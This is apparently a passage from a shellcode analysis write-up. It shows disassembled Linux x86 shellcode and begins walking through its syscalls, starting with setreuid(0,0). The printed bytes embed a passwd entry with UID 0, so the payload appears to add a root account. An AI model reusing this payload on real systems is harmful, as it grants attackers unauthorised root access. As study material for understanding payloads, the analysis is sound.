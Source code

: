 ```
00000025  93                xchg eax,ebx
00000026  E822000000        call dword 0x4d
0000002B  53                push ebx
0000002C  4C                dec esp
0000002D  41                inc ecx
0000002E  45                inc ebp
0000002F  3A417A            cmp al,[ecx+0x7a]
00000032  7263              jc 0x97
00000034  6E                outsb
00000035  7A50              jpe 0x87
00000037  59                pop ecx
00000038  6C                insb
00000039  667232            o16 jc 0x6e
0000003C  45                inc ebp
0000003D  3A30              cmp dh,[eax]
0000003F  3A30              cmp dh,[eax]
00000041  3A3A              cmp bh,[edx]
00000043  2F                das
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  7368              jnc 0xb4
0000004C  0A598B            or bl,[ecx-0x75]
0000004F  51                push ecx
00000050  FC                cld
00000051  6A04              push byte +0x4
00000053  58                pop eax
00000054  CD80              int 0x80
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80
```
As you can see, it takes the shellcode and converts it into readable assembly.  The 2nd column is actually our opcodes!

We can see multiple int 0x80's at:\
  00000007\
  00000023\
  00000054\
  00000059

These will be our focus points for the analysis so we can figure out which syscalls are happening throughout the shellcode.

```
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
```
We zero out both ECX and EBX.\
Then EAX is set to 0x46
```shell
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 70
#define __NR_setreuid 70
```
So our syscall here is setreuid with args - 0 and 0
> int setreuid(uid_t ruid, uid_t euid);
